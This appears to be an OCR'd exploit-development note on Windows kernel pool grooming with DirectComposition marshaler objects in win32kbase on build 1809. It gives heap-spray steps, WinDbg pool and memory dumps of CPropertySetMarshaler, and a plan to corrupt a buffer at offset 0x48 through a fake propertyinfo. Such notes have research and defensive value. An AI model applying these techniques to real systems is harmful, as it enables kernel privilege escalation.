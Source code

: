 5) make holes in cexpressionmarshaler
6) make holes in first set of cpropertysetmarshaler
7) make one more property for second set of cpropertyset marshaler, causing reallocation
8) hopefully some of their propertyinfo will occupy the freed cexpressionmarshaler chunks and their propertyset buffer will occupy the
holes in the first set of cpropertysetmarshaler


The size of CPropertySetMarshaler on 1809 was 0x70

```
1: kd> !pool ffffb38d`464d64d0
Pool page ffffb38d464d64d0 region is Paged session pool
 ffffb38d464d6000 size:   60 previous size:    0  (Free)       ....
 ffffb38d464d6060 size:   70 previous size:    0  (Free)       Ussy
 ffffb38d464d60d0 size:   70 previous size:    0  (Free)       Ussy
 ffffb38d464d6140 size:   70 previous size:    0  (Free)       Ussy
 ffffb38d464d61b0 size:   70 previous size:    0  (Free)       Ussy
 ffffb38d464d6220 size:   70 previous size:    0  (Free)       Ussy
 ffffb38d464d6290 size:   70 previous size:    0  (Free)       Ussy
 ffffb38d464d6300 size:   70 previous size:    0  (Free)       Ussy
 ffffb38d464d6370 size:   70 previous size:    0  (Free)       Ussy
 ffffb38d464d63e0 size:   70 previous size:    0  (Free)       Ussy
 ffffb38d464d6450 size:   70 previous size:    0  (Free)       Ussy
*ffffb38d464d64c0 size:   70 previous size:    0  (Allocated) *DCpb Process: ffffa20a1e83b540
		Pooltag DCpb : DCOMPOSITIONTAG_PROPERTYSETMARSHALER, Binary : win32kbase!DirectComposition::C
1: kd> dqs ffffb38d`464d64d0-8 ffffb38d`464d64d0+78h
ffffb38d`464d64c8  c26b75e1`5f6fbf7c
ffffb38d`464d64d0  ffffb3d4`0f73c470
ffffb38d`464d64d8  00000000`00000000
ffffb38d`464d64e0  00000001`00000080
ffffb38d`464d64e8  00000000`00000001
ffffb38d`464d64f0  00000000`00000000
ffffb38d`464d64f8  00000000`00000000
ffffb38d`464d6500  00000000`00000000
ffffb38d`464d6508  ffffb38d`464d2270
ffffb38d`464d6510  00000001`00000001
ffffb38d`464d6518  ffffb38d`464d2110
ffffb38d`464d6520  00000008`00000008
ffffb38d`464d6528  00000000`00000000
ffffb38d`464d6530  79737355`2b070000
```

buffer to overwrite is offset 0x48. We need the propertyinfo of adjacent properties to be in the same bucket as a fake propertyinfo large enough to write +0x48, but also a different bucket from CPropertySetMarshaler. also the propertyset buffer needs to be the same size as CPropertySetMarshaler (0x70).

```
1: kd> dqs ffffb38d`46546540
ffffb38d`46546540  ffffb3d4`0f73c470 win32kbase!DirectComposition::CPropertySetMarshaler::`vftable'
ffffb38d`46546548  00000000`00000000
ffffb38d`46546550  00000001`00000082
ffffb38d`46546558  00000000`00000001
ffffb38d`46546560  00000000`00000000
ffffb38d`46546568  00000000`00000000
ffffb38d`46546570  00000000`00000000
ffffb38d`46546578  ffffb38d`464b6cd0
ffffb38d`46546580  00000006`00000006
ffffb38d`46546588  ffffb38d`46546150
ffffb38d`46546590  00000060`00000060
ffffb38d`46546598  00000000`00000000
ffffb38d`465465a0  79737355`2b070000
ffffb38d`465465a8  c26b75e1`619b6fdc
ffffb38d`465465b0  00000000`00000244
```